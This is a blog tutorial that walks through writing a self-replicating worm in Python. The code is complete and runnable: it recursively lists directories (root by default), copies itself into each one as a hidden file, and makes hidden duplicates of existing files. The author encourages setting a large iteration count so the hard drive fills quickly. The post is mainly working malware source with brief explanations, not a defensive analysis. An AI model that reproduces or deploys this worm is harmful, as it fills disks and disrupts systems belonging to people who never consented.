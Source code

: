 ```yaml
---
layout: single
title: "Write a Worm (Malware) in Python"
header:
  image: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51222794606_2f0e44416e_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Worm
  - Virus
  - Malware
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


`Worm` is type of malware that replicates itself and other files to consume spaces in our hard drives. You may find your drives or partitions get full without any visible reason and that might happen because of a `worm`.

A Worm is different than a computer Virus in a way that typical viruses only infects files and worms replicates files and keep the duplicates out of sight (as hidden files).

In this post, we will learn what are the characteristics of a Worm by writing a basic one in python. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [A Basic Keylogger in Python](https://shantoroy.com/security/a-simple-keylogger-in-python/)


## Requirements
We will need two modules to write a `worm`. Here, `os` is the most important module and we will utilize it to list all files and directories alongside retrieving the absolute paths.

`shutil` is used to copy file contents. There are obviously other ways to do it, however, I chose to do it using `shutil.copyfile()` method.
```python
import os
import shutil
```

## `Worm` Class
First, let's create a `Worm` class and a initializer method to pass initial arguments to our created class. 
```python
class Worm:
    
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path = "/"
        else:
            self.path = path
            
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list = []
        else:
            self.target_dir_list = target_dir_list
            
        if isinstance(target_dir_list, type(None)):
            self.iteration = 2
        else:
            self.iteration = iteration
        
        # get own absolute path
        self.own_path = os.path.realpath(__file__)
```

Here, we have three arguments:
* path: defines where to start looking for directories (default is set to the `root` directory `/`)
* target_dir_list: user can pass a list of initial target directories. By default it is an empty list `[]`
* iteration: I used this parameter to define how many instances the worm will create for each existing file in a directory (default value is `2` only for testing purpose, you can increase or decrease the number, or better provide valur while creating an object of the class)

### Method to list all Directories and Subdirectories
The first method we need is to list all the target directories and subdirectories where we want to copy our worm and existing files in the directories.

Here, I am avoiding hidden files as it includes the parent directories as well (hidden files starts with dot `.` in Linux or macOS). Other than that it adds a file (directories are also called as `file` in Unix-based file systems) if it is a directory and recursively does so for all of the subdirectories.
```python
    def list_directories(self,path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)
        
        for file in files_in_current_directory:
            # avoid hidden files/directories (start with dot (.))
            if not file.startswith('.'):
                # get the full path
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
```

### Method to Replicate the Worm
To replicate the script itself in all the target directories, we get the absolute path of the script we are running, and than copy the contents in the destination directories creating a new hidden file (starts with a dot `.`) with the same name.
```python
    def create_new_worm(self):
        for directory in self.target_dir_list:
            destination = os.path.join(directory, ".worm.py")
            # copy the script in the new directory with similar name
            shutil.copyfile(self.own_path, destination)
```

### Method to copy existing Files
The following method will be used to duplicate files the number of times the value we have from the `iteration` argument. You can put a large number so that the hard drive will be full soon.
```python
    def copy_existing_files(self):
        for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,("."+file+str(i)))
                        shutil.copyfile(source, destination)
```

### Method to integrate everything
In this method, we will call all of our previous methods. So, when we call this method using our created object, the worm will start all the actions sequentially. If you want a timer or datetime, you can add that functionality. Just check the post: [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/). I have added functionality in that post.
```python
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_files()
```

## Main Function
Now, let’s create our main function and run the code
```python
if __name__=="__main__":
    current_directory = os.path.abspath("")
    worm = Worm(path=current_directory)
    worm.start_worm_actions()
```
The whole code is available in [Github](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/worm/worm.py)

Here, to avoid getting our own drive filled up, let's use the existing directory only using `os.path.abspath("")`, and pass that as argument while creating an object of the `Worm` class. Finally we call the integrating method and we are good to go!

You can look at other security concept tutorials in python. I have created a repository for that. I am planning to provide security concepts by writing python codes. Please feel free to put a star if you like the repository.

[Intro to Cybersecurity in Python](https://github.com/shantoroy/intro-2-cybersecurity-in-python)

Also, the associated blog post links are available in the `ReadMe` file over there.

Have a good day! Cheers!!!
<!--stackedit_data:
eyJoaXN0b3J5IjpbMjk4OTMzMzU0LC0xOTgxNzQyNjU1LDEzNT
QxMTU2ODNdfQ==
-->